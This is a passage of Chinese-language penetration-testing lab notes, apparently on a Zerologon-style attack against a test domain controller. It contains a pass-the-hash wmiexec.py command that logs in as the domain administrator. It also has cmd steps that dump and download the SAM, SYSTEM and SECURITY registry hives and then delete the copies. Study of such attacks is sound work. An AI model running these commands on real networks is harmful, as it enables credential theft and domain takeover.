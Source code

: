     aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 这个就是空密码的 Hash。

4. 通过漏洞导出域控用户账户的 Hash 后，可以用 Hash 登录：
    ```bash
    python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 endlessshw2.com/administrator@192.168.31.4
    ```

    ![image-20240722192324534](Kerberos/image-20240722192324534.png)

5. 改完之后会导致各个域之间无法正常通信，因此有必要将其还原：

    > Do note that by default this changes the password of the domain controller account. Yes this allows you to DCSync, but it also **breaks communication with other domain controllers**, so be careful with this!

    首先导出 SAM 文件（在域控上或者拿到的 Shell 上执行）：
    ```cmd
    # 靶机上备份
    reg save HKLM\SYSTEM system.save
    reg save HKLM\SAM sam.save
    reg save HKLM\SECURITY security.save
    # Shell 下载到本地
    get system.save
    get sam.save
    get security.save
    # 靶机上的再删除
    del /f system.save
    del /f sam.save
    del /f security.save
    exit
    ```
